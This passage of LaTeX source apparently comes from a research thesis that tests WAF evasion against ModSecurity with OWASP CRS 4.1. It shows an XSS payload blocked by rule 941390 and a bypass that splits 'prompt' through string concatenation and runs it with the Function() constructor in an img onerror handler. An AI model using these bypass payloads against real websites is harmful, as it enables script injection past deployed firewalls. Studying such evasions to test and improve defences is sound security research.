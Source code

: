 \subsubsection{Function Constructor + String Concatenation}
\label{sec:funconstrconbypass}
In this test, the payload logic should include multiple statements and reveal a secret by accessing a property.
The basic implementation was blocked by the ModSecurity firewall configured to use \acrshort{crs} 4.1:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=prompt blocked, label={lst:promptblocked}]
<payload>`var s = "secret";prompt(s, s)`</payload>

<message>"Javascript method detected"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "714"] [id "941390"]<fileDetails>
<MatchedData>"prompt("</MatchedData>
\end{lstlisting}

Using string concatenation to replace the character sequence \verb|'prompt'| with \verb|'promp + t'| successfully made the payload evade rule \verb|941390| and bypass the WAF. The bypassing payload:

\begin{lstlisting}[style=basicStyle, language=Python]
`var s = 'secret'; promp` + `t(s, s)`
\end{lstlisting}

If this payload is correctly injected into the evaluation test page mentioned under Section~\ref{sec:evaluation}, it results in the following \acrshort{html} code (shortened):

\begin{lstlisting}[style=basicStyle, language=Python]
<div id="div1">
	<img src="0" onerror="`var s = 'secret'; promp` + `t(s, s)`">
</div>
\end{lstlisting}

While this executes without exceptions, it does not achieve the wished-for effect. The effect achieved is the concatenation of the two strings \verb|`var s = 'secret'; promp`| and \verb|`t(s, s)`|. As mentioned under Section~\ref{sec:stringconc}, the payload string needs to be evaluted on the target in order to have a functioning payload after obscuring the statements inside with string concatenation. To achieve this, the \verb|Function()| constructor was used:

\begin{lstlisting}[style=basicStyle, language=Python]
new Function(`var s = 'secret'; promp` + `t(s, s)`)()
\end{lstlisting}

